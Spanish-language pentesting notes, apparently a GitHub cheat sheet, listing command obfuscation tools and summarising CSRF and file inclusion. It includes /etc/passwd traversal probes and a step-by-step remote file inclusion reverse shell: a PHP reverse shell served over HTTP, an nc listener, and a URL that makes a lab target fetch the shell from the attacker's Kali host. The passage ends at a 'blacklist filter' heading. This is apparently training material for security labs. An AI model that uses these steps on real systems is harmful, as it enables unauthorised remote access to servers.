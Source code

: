 ### 🔹 Herramientas de Ofuscacion
  1 - Bashfuscator => ofuscador de comandos Linux
  ```bash
    git clone https://github.com/Bashfuscator/Bashfuscator
    cd Bashfuscator
    pip3 install setuptools==65
    python3 setup.py install --user
  ```
                   
  2 - DOSfuscation => osfuscador de comandos windows

---

## 🎭 CSRF (Cross-Site Request Forgery)

- 🚨 **Vulnerabilidad**: Se explota manipulando el cambio de contraseña en una URL.
- 📎 **Ataque**: Se acorta el link malicioso y se envía a la víctima.

---

## 📂 FILE INCLUSION (LFI/RFI)

1. Si encontramos `/?page=` en la URL y acaba en `.php`, **podría ser vulnerable**.
2. **Probar acceso a archivos sensibles**:
   ```bash
   /etc/passwd
   /../../../../etc/passwd
   ```
3. **Si carga contenido, es vulnerable**.

📌 **Ubicación de archivos en servidores**:
- **Linux**: `/var/www/`
- **Windows**: `C:/inetpub/www`

### 🔹 Explotación con Reverse Shell 🖥️
1. Descargar una **reverse shell**:
   ```bash
   git clone https://github.com/pentestmonkey/php-reverse-shell.git
   ```
2. Copias el codigo y creas un archivo **Modificar IP y Puerto** (poner la IP de nuestra Kali y puerto deseado).
    ```bash
    sudo nano reverse.php
    ```
3. **Ejecutar servidor para subida del archivo**:
   ```bash
   python3 -m http.server 8080
   ```
5. **Poner escucha en Kali**:
   ```bash
   nc -lvnp 4444
   ```
6. **Ejecutar la reverse shell desde la URL**:
   ```bash
   http://10.10.231.229/vulnerabilities/fi/?page=http//IPKALI:8080/reverse.php
   ```
#### 🛑 BLACKLIST FILTER
